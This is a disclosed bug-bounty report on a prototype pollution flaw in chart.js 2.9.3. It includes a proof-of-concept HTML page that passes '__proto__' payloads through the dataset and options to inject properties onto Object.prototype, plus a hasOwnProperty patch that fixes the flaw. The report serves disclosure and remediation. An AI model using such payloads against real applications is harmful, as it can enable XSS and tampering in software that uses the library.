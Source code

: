 # [chart.js] Prototype pollution

## Report Details
- **Report ID**: 776371
- **URL**: https://hackerone.com/reports/776371
- **State**: Closed
- **Severity**: low
- **Submitted**: 2020-01-16T12:28:44.719Z
- **Disclosed**: 2020-12-02T23:14:03.894Z

## Reporter
- **Username**: asgerf
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a prototype pollution vulnerability in chart.js
It allows an attacker to inject properties on Object.prototype which can for some applications lead to XSS.

# Module

**module name:** chart.js
**version:** 2.9.3
**npm page:** `https://www.npmjs.com/package/chart.js`

## Module Description

Simple yet flexible JavaScript charting for designers & developers

## Module Stats

854,171 weekly downloads

# Vulnerability

## Vulnerability Description

If the `dataset` or `options` passed to Chart.js contains an attacker-controlled object, Chart.js can be tricked into adding or modifying properties of the Object prototype. These properties will be present on all objects.

The payload is an object with the `__proto__` property.

## Steps To Reproduce:

Install chart.js 2.9.3 into node_modules and then view the following HTML page and check the log:
```html
        <canvas id="canvas"></canvas>
        <script src="node_modules/chart.js/dist/Chart.bundle.js"></script>
        <script>
            var ctx = document.getElementById('canvas').getContext('2d');
            var chart = new Chart(ctx, {
                type: 'line',
                data: {
                    labels: ['January', 'February', 'March', 'April', 'May'],
                    datasets: [{
                        label: 'My First dataset',
                        backgroundColor: 'rgb(255, 99, 132)',
                        borderColor: 'rgb(255, 99, 132)',
                        data: [0, 10, 5, 2, 20]
                    },
                    JSON.parse(`{"__proto__": {"abc": "Injected value through dataset"}}`)
                    ]
                },
                options: JSON.parse(`{"__proto__": {"def": "Injected value through options"}}`)
            });
            console.log({}.abc); // Print "Injected value through dataset"
            console.log({}.def); // Print "Injected value through options"
        </script>
```

## Patch

Avoid recursively merging properties that aren't already own properties of the target object:

```
diff --git a/src/helpers/helpers.core.js b/src/helpers/helpers.core.js
index 100d4edf..b5127025 100644
--- a/src/helpers/helpers.core.js
+++ b/src/helpers/helpers.core.js
@@ -226,7 +226,7 @@ export function _merger(key, target, source, options) {
 	var tval = target[key];
 	var sval = source[key];

-	if (isObject(tval) && isObject(sval)) {
+	if (Object.prototype.hasOwnProperty.call(target, key) && isObject(tval) && isObject(sval)) {
 		// eslint-disable-next-line no-use-before-define
 		merge(tval, sval, options);
 	} else {
```

## Supporting Material/References:

Tested Chart.js 2.9.3 in Chrome 79

# Wrap up

- I contacted the maintainer to let them know: N
- I opened an issue in the related repository: N

## Impact

Inject properties on Object.prototype which can for some applications lead to XSS.

## Attachments
No attachments
